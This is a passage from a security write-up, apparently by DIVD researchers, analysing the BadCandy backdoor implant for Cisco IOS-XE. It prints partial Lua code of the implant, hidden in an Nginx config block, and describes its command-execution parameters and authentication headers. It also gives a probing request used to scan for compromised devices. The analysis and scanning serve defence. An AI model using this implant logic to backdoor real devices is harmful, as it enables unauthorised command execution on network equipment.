 ```lua
            if (authorized == true) then
                ngx.status = 200
                ngx.say(content)
            else
                local result = ngx.location.capture("/internalWebui/login.html", {method = ngx.HTTP_GET})
                if result then
                    ngx.status = result.status
                    if result.body then
                        ngx.say(result.body)
                    end
                end
            end
    } 
}
```
<span class="centered-text">Listing 5: BadCandy implant for Cisco IOS-XE - version 1</span>

Listing 5 shows the full logic of the initial BadCandy implant, disguised as an Nginx config block. In most early instances of the backdoor, if the `?logon_hash=1` parameter is set, it will return an 18-character hexadecimal string. If the `common_type` parameter is `subsystem`, it executes the request body, and if the `common_type` parameter is `iox`, it will execute on Privilege Level 15. The `login_hash` parameter also allowed including a 40-character hash that serves as an authentication mechanism for the command execution functionality.

Around October 20, 2023, a second version of the implant appeared that included an additional authentication mechanism, shown in Listing 6. The second version included a preliminary check for an HTTP Authorization header. Cisco Talos [suspected at the time](https://blog.talosintelligence.com/active-exploitation-of-cisco-ios-xe-software/) that this was a reactive measure to prevent the identification of compromised systems. Later, a third version of the BadCandy implant would include an additional check for a `X-Csrf-Token` HTTP header in a similar fashion. Strangely enough, the third version would qualify an incoming request as authorized as long as one of the two headers would be correct.

```lua
  if (method == "POST" and params ~= nil) then
      if (headers["Authorization"] ~= nil ) then
          local authcode = string.gsub(headers["Authorization"], "^%s*(.-)%s*$", "%1")
          if (authcode ~= nil and string.match(authcode, "^%w+$") ~= nil) then
              local f = io.popen("","r")
              if (f ~= nil) then
                  local shasum = f:read("*all")
                  shasum = string.lower(shasum)
                  if string.find(shasum, "<redacted>") then
                      authorized = true
                  end
                  f:close()
              end
          end
      end
```
<span class="centered-text">Listing 6: Introduced Authorization header mechanism to BadCandy</span>

After the Proof of Concept (POC) exploit became public on October 30th, exploitation attempts skyrocketed. Most of these attacks were opportunistic, as is common with popular POCs. A generic way of probing systems for the implant without interacting with the backdoor's core functionality is to make a request to the uri `/%25` on the system (as shown in Listing 7). If the implant is listening, it will return an HTTP 404 response (or a decoy login page in the third version). This is what we used at DIVD to scan for compromised devices with the below template. Scanning for the `/webui/logoutconfirm.html` endpoint was not an option, as we did not want to interact with the implant's core functionality and accidentally trigger any unintended effects.
